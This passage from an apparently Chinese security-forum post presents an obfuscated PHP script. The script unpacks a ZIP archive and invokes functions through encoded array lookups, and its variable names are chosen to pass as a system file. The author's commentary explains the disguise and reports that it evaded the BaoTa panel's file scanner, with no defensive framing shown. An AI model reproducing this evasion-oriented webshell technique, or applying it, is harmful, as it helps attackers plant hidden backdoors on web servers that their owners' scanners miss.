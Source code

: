 ```php
$SQLKWD[JARMD] {
    0x4 
}
($AAGGGAA);
$AAGGAGG = new ZipArchive();
if ($AAGGAGG-&gt;open(pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD][012])) === true) {
    $AAGGAGG-&gt;extractTo(pack($SQLKWD[SQLDBWD] {
        0x0 
    }
    , $SQLKWD[SQLDBWD] {
        11 
    }
    ));
    $AAGGAGG-&gt;close();
}
$AAGGAGA = pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    0x8 
}
);
if ($SQLKWD[JARMD] {
    05 
}
($AAGGAGA)) {
    if ($SQLKWD[JARMD][6]($AAGGAGA)) {
    }
}
echo pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    0xC 
}
);
?&gt;
```

第一眼看去，里面的变量名很多都是比较混淆的。如果把这个作为系统文件来看的话，毫无违和感，变量命名是以SQL、SSH等加上其他后缀，伪装成系统文件

0x02 文件查杀
=========

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-47a873577c0158c10bb20915c2b016d847c29df9.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-e93045b1ed92dfbab07990b13a32fb010e0f27d0.png)

绕过了宝塔的文件检测，但是付费的不知道，我没有充钱

